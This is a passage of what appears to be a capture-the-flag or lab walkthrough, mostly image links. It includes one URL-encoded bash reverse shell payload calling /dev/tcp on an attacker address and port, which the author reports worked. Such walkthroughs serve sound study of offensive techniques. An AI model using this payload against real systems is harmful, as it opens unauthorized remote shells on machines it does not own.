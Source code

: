 ![](./images/6.png)

- Let's get our reverse shell
  - I played around with different payloads
  - `bash+-c+"%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F10.10.16.4%2F6666 0>%261"` worked for me

![](./images/7.png)

![](./images/8.png)

